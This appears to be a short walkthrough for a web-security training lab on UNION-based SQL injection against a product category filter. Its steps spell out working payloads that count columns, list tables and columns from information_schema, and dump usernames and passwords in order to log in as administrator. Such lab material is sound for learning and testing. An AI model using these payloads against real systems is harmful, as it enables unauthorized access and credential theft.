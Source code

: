 ## Solution Steps

- Use Burp Suite to intercept and modify the request that sets the product category filter.
- Determine the number of columns that are being returned by the query and which columns contain text data by nodifying the category parameter with the help of: '+UNION+SELECT+NULL,NULL# and '+UNION+SELECT+'abc','def'--
- Retrieve the list of tables in the database: '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
- Find the name of the table containing user credentials.
- Use the following payload (replacing the table name) to retrieve the details of the columns in the table: '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_xyz'--
- Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users: '+UNION+SELECT+username_abc,+password_abc+FROM+users_xyz--
- Find the password for the administrator user, and use it to log in.

Note : The table and column names have been intentionally replaced with random names for demonstration purposes.
